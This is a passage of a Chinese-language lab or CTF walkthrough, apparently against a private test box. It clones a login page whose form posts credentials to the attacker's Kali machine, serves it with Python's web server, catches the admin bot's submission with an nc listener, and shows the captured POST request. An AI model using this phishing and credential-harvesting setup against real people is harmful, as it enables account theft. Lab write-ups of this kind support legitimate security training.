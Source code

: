                 <div class="alert alert-danger">Invalid username or password.</div>
                <form action="http://192.168.56.10:1234" method="post">
                    <div class="form-group">
                        <label>Username</label>
                        <input type="text" name="username" class="form-control " value="test">
                        <span class="invalid-feedback"></span>
                    </div>    
                    <div class="form-group">
                        <label>Password</label>
                        <input type="password" name="password" class="form-control ">
                        <span class="invalid-feedback"></span>
                    </div>
                    <div class="form-group">
                        <input type="submit" class="btn btn-primary" value="Login">
                    </div>
                    <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
                </form>
            </div>
        </body>
        </html>
        ```
        
    - 都放在`kali`的一个文件夹下
        
        ```python
        ┌──(root㉿kali)-[~/Desktop/test/diaoyu]
        └─# ls
        a.html  Login_files  Login.htm
        ```
        
    - `kali`使用`python`开启简易`web`服务器（`~/Desktop/test/diaoyu`文件夹下）
        
        ```python
        python -m http.server 80
        ```
        
    - `kali`开启监听
        
        ```python
        nc -lvp 1234
        ```
        
    - 然后在页面上提交`http://192.168.56.10/a.html` ，随后等待管理员检查链接
        
        简易服务器发现有人请求`a.html`了
        
        ```python
        python -m http.server 80
        Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
        192.168.56.3 - - [10/Nov/2024 16:22:05] "GET /a.html HTTP/1.1" 200 -
        ```
        
        查看nc,得到用户凭证
        
        ```python
        nc -lvp 1234
        listening on [any] 1234 ...
        192.168.56.3: inverse host lookup failed: Unknown host
        connect to [192.168.56.10] from (UNKNOWN) [192.168.56.3] 43212
        POST /login.htm HTTP/1.1
        Host: 192.168.56.10:1234
        User-Agent: python-requests/2.22.0
        Accept-Encoding: gzip, deflate
        Accept: */*
        Connection: keep-alive
        Content-Length: 45
        Content-Type: application/x-www-form-urlencoded
        